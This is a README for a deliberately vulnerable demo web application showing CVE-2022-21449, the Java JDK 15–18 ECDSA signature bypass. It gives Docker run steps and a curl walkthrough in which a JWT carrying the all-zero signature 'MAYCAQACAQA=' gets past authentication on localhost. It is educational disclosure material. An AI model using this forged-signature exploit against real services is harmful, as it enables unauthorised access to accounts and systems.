 # Exploitation and Sample Vulnerable Application of the JWT Null Signature Vulnerability (CVE-2022-21449)

This folder contains a sample web application vulnerable to [CVE-2022-21449](https://neilmadden.blog/2022/04/19/psychic-signatures-in-java/), a vulnerability in the Java JDKs 15 to 18 allowing to bypass signature checks using ECDSA signatures (based on elliptic curves).

## Running the application

Run it:

```
docker run --name vulnerable-app --rm -p 8080:8080 ghcr.io/datadog/jwt-null-signature-vulnerable-app
```

Built it yourself:

```
docker build . -t vulnerable-app
docker run -p 8080:8080 --name vulnerable-app --rm vulnerable-app
```

## Exploitation steps

The application has a single endpoint that requires authenticating with a valid JWT (with regard to a randomly-generated private key):

```
$ curl localhost:8080 -sSL -D-
HTTP/1.1 401
Content-Type: text/plain;charset=UTF-8
Content-Length: 46
Date: Wed, 20 Apr 2022 14:53:06 GMT

You are not authorized to access this endpoint
```

Specifying an invalid JWT (for instance, signed with any EC256 key) returns an error as well:

```bash
# Generated on https://token.dev/ with the algorithm "ES256"
$ JWT=eyJ0eXAiOiJKV1QiLCJhbGciOiJFUzI1NiJ9.eyJzdWIiOiJSaWNrIEFzdGxleSIsImFkbWluIjp0cnVlLCJpYXQiOjE2NTA0NjY1MDIsImV4cCI6MTkwMDQ3MDEwMn0.R05LldFQf7kay5-8hPeJYnYD_ehxKAKFXo-t6Qt7ZKUKkQSQowOHeiZBI9ierO1q6AZlJ4GsXFsxhPrj6m4cMg
$ curl localhost:8080 -sSL -D- -H "Authorization: Bearer $JWT"
HTTP/1.1 401
Content-Type: text/plain;charset=UTF-8
Content-Length: 11
Date: Wed, 20 Apr 2022 14:56:04 GMT

Invalid JWT
```

However, specifying an ECDSA signature with `r=s=0` encoded in DER, `MAYCAQACAQA=`, allows us to bypass the JWT verification check!

```bash
$ echo -ne "MAYCAQACAQA=" | base64 -d | openssl asn1parse -inform der
0:d=0  hl=2 l=   6 cons: SEQUENCE
2:d=1  hl=2 l=   1 prim: INTEGER           :00
5:d=1  hl=2 l=   1 prim: INTEGER           :00
```

```bash
# Same JWT as above with the malicious signature
$ JWT=eyJ0eXAiOiJKV1QiLCJhbGciOiJFUzI1NiJ9.eyJzdWIiOiJSaWNrIEFzdGxleSIsImFkbWluIjp0cnVlLCJpYXQiOjE2NTA0NjY1MDIsImV4cCI6MTkwMDQ3MDEwMn0.MAYCAQACAQA
$ curl localhost:8080 -sSL -D- -H "Authorization: Bearer $JWT"
HTTP/1.1 200
Content-Type: text/plain;charset=UTF-8
Content-Length: 19
Date: Wed, 20 Apr 2022 14:59:18 GMT

Hello, Rick Astley!
```

## Notes

This demo makes of use of the popular [jjwt](https://github.com/jwtk/jjwt) library. 
Similar vulnerabilities are likely to affect other Java-based JWT libraries running on vulnerable JDK versions - the vulnerability does not lie in the libraries themselves, but in the cryptographical primitives provided by the vulnerable JDK.

## Credits

* Disclosure: https://neilmadden.blog/2022/04/19/psychic-signatures-in-java/ by Neil Madden
* This repository: Thomas Etrillard, [Christophe Tafani-Dereeper](https://twitter.com/christophetd)